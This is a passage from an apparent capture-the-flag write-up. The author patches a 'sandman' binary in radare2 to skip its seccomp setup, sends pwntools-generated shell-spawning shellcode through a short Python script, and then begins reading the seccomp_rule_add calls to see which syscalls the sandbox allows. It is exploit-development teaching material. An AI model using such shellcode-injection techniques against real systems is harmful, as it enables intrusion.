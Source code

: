 Using the visual assembler (press `A`) you can easily patch binaries. I just
inserted a `jmp` instruction to the piece of code that executes our shellcode.

```
│    ┌──└─> 0x00401008      e9de000000     jmp 0x4010eb
│    │││    0x0040100d      e83ef9ffff     call sym.imp.seccomp_init
```

I used the [pwntools](https://github.com/Gallopsled/pwntools) fork
[binjitsu](https://binjitsu.readthedocs.org/), which has a couple of nice
improvements, such as ROP on `x86_64`, to interact with the binary. And indeed
it does give us a nice shell.

```python
from pwn import *  # NOQA

context.os = 'linux'
context.arch = 'amd64'

vulnbin = "./sandman_noseccomp"
velf = ELF(vulnbin)

sc = asm(shellcraft.amd64.linux.sh())

vp = process(vulnbin)
#vp = remote(...)

vp.send(p32(len(sc)))
vp.send(sc)

vp.clean_and_log()
vp.interactive()
```


### Seccomp Sandbox

So let's see what the seccomp sandbox allows us to do. There interesting parts
are the calls to `seccomp_rule_add`, which has the following signature:

```
int seccomp_rule_add(scmp_filter_ctx ctx,  // rdi
                     uint32_t action,      // rsi
                     int syscall,          // rdx
                     unsigned int arg_cnt, // rcx
                     ...);

#define SCMP_ACT_ALLOW    0x7fff0000U
```

In the binary there are four nearly identical calls to the this function, so we
are probably allowed to do 4 different syscalls. Let's look at one of those
calls.

```
│    │││└─> 0x00401022      488b45e8       mov rax, qword [rbp-local_3]
│    │││    0x00401026      b900000000     mov ecx, 0                  ; unsigned int arg_cnt
│    │││    0x0040102b      ba00000000     mov edx, 0                  ; int syscall
│    │││    0x00401030      be0000ff7f     mov esi, 0x7fff0000         ; uint32_t action
│    │││    0x00401035      4889c7         mov rdi, rax                ; scmp_filter_ctx ctx
│    │││    0x00401038      b800000000     mov eax, 0
│    │││    0x0040103d      e83ef9ffff     call sym.imp.seccomp_rule_add
```
